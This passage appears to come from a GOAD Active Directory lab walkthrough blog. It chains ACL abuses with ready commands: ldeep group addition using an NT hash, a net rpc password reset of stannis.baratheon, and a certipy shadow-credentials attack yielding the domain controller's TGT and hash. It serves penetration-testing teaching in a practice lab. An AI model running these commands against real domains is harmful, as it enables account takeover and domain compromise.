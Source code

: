 ```bash
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://192.168.56.10 add_to_group "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=kingsguard,OU=Crownlands,DC=sevenkingdoms,DC=local"
```

![acl_writeowner_addgroup.png](/assets/blog/GOAD/acl_writeowner_addgroup.png)

## Generic all on user (kingsguard -> stannis)

- Now tyron is in kingsguard so we can take the control of stannis with the genericAll on stannis

![acl_genericall_group.png](/assets/blog/GOAD/acl_genericall_group.png)

- let's change stannis password with ldeep

```bash
net rpc password stannis.baratheon --pw-nt-hash -U sevenkingdoms.local/tyron.lannister%b3b3717f7d51b37fb325f7e7d048e998 -S kingslanding.sevenkingdoms.local
```

- We will set the password `Drag0nst0ne` (i know it is the same as before but i didn't want to change the screenshots in the next part :p )

## GenericAll on Computer (Stannis -> kingslanding)

- Now we own stannis, let's finish the domain with the generic Write on the DC

![acl_genericwrite_computer.png](/assets/blog/GOAD/acl_genericwrite_computer.png)

- We already done that on the previous chapter. One way to abuse of this permission is by using Resource Based Constrained Delegation ([Goad pwning part10]({% link _posts/2022-11-13-GOADv2-pwning-part10.md %}))

- But what if you can't add a computer in the domain (more and more customers disable the ability for a simple user to add computer to the domains and this is a good practice from a security point of view), you can do a shadow credentials attack on the computer.

- So if ADCS is enabled on the domain, and we got write privilege on msDS-KeyCredentialLink, we can do the shadow credentials attack to get a direct access on the target account. (just like what we did in [Goad pwning part5]({% link _posts/2022-07-20-GOADv2-pwning-part5.md %}))

- Shadow credentials is now include with certipy (this attack can also be done with [pywisker](https://github.com/ShutdownRepo/pywhisker) )

```bash
certipy shadow auto -u stannis.baratheon@sevenkingdoms.local -p 'Drag0nst0ne' -account 'kingslanding$'
```

![acl_shadow_creds_computer.png](/assets/blog/GOAD/acl_shadow_creds_computer.png)

- Now we got the tgt and the NT hash of kingslanding$
- Obviously we can do a dcsync because kingslanding is a DC, but instead let's try to directly get a shell
